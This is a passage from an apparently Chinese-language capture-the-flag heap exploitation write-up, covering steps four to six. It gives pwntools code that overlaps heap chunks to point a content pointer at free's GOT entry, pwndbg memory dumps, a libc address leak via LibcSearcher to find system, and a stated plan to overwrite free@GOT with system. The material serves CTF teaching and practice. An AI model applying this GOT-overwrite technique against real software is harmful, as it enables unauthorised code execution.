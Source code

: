 第四步：创建一个新的new_heap1,并网里面写入了内容，使得new_heap1_struct中得new_heap1_content_ptr覆盖为free函数得got表地址

```
create(0x30, p64(0) * 4 + p64(0x30) + p64(e.got['free']))  #1
```

```
pwndbg> x /10gx 0x06020A0
0x6020a0 <heaparray>:	0x0000000000603010	0x0000000000603070
0x6020b0 <heaparray+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <heaparray+32>:	0x0000000000000000	0x0000000000000000
0x6020d0 <heaparray+48>:	0x0000000000000000	0x0000000000000000
0x6020e0 <heaparray+64>:	0x0000000000000000	0x0000000000000000

pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021     //heap0_struct
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021     //heap0_content
0x603030:	0x0068732f6e69622f	0x6161616161616161
0x603040:	0x6161616161616161	0x0000000000000041     //new_heap1_content(原来的heap1_struct)
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000     //new_heap1_struct(原来的heap1_content)
0x603070:	0x0000000000000030	0x0000000000602018     
0x603080:	0x0000000000000000	0x0000000000020f81
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000

pwndbg> x /gx 0x0000000000602018
0x602018 <free@got.plt>:	0x00007ffff7a91a70
```

第五步：泄露got表里面得内容，即free函数得真实地址，找到libc版本

```python
# leak freeaddr
show(1)
p.recvuntil("Content : ")
data = p.recvuntil("Done !")
free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
print('free_got_addr:'+hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr-libc.dump('free')
system_addr = libc_base+libc.dump('system')
# libc_base = free_addr - libc.symbols['free']
# log.success('libc base addr: ' + hex(libc_base))
# system_addr = libc_base + libc.symbols['system']
print('system_addr:'+hex(system_addr))
```

第六步：将free函数got表得内容改为system函数地址
